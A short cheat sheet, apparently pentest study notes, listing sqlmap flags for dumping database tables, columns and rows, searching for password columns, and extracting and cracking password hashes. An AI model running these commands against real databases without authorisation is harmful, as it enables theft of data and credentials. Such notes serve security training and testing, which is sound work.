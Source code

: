 use `--dump` and `-T table` to read a table named table

### flags
--banner -> version
--current-user -> get curr user
--hostname
--current-db
--passwords
--is-dba -> check if curr user has administrative rights over DB
`--dump-all`
--schema 


tables enumeration
```
--tables -D testdb
```
check a specific table
```
--dump -T users -D testdb 
```
specific columns
```shell-session
--dump -T users -D testdb -C name,surname
```
specific rows
```shell-session
--dump -T users -D testdb --start=2 --stop=3
```
conditional enumeration
```
--dump -T users -D testdb --where="name LIKE 'f%'"
```
searching for data (it will search everything that contains user)
```
--search -T user
```
searching for columns
```shell-session
--search -C pass
```

### Password Enumeration and Cracking
```shell-session
--dump -D master -T users
--passwords --batch
```